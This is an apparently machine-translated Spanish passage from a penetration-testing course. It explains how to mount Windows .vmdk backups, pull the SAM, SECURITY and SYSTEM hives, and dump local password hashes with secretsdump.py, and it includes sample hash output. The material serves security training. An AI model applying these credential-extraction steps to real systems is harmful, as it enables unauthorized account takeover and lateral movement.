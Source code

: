 ![Disk Management window showing Disk 0 with 39.98 GB, containing a 450 MB Recovery Partition, 99 MB EFI System Partition, and 39.45 GB NTFS Primary Partition. CD-ROM 0 labeled 'Hygiene (D:)' with 479 MB CDFS.](https://academy.hackthebox.com/storage/modules/67/mount.png)

Por un`.vmdk`archivo, podemos hacer clic con el botón derecho y elegir`Map Virtual Disk`Desde el menú. A continuación, se nos pedirá que seleccionemos una letra de unidad. Si todo va según lo planeado, podemos explorar los archivos y directorios del sistema operativo de destino. Si esto falla, podemos usar la estación de trabajo de VMware`File --> Map Virtual Disks`Para mapear el disco en nuestro sistema base. También podríamos agregar el`.vmdk`Presente en nuestra VM de ataque como un disco duro virtual adicional, luego acceda a él como una unidad con letras. Incluso podemos usar`7-Zip`extraer datos de a.`vmdk`archivo. Este[guía](https://www.nakivo.com/blog/extract-content-vmdk-files-step-step-guide/)ilustra muchos métodos para obtener acceso a los archivos en un`.vmdk`archivo.

#### Recuperar hashes usando secretsdump.py

¿Por qué nos importa un disco duro virtual (especialmente Windows)? Si podemos localizar una copia de seguridad de una máquina en vivo, podemos acceder al`C:\Windows\System32\Config`directorio y derribar el`SAM`, `SECURITY`y`SYSTEM`Registro colmenas. Entonces podemos usar una herramienta como[secreto](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py)Para extraer los hash de contraseña para los usuarios locales.

  Técnicas misceláneas

```shell-session
xnoxos@htb[/htb]$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>
```

Podemos tener suerte y recuperar el hash de contraseña de administrador local para el sistema de destino o encontrar un hash de contraseña de administrador local antiguo que funcione en otros sistemas en el entorno (los cuales he realizado en bastantes evaluaciones).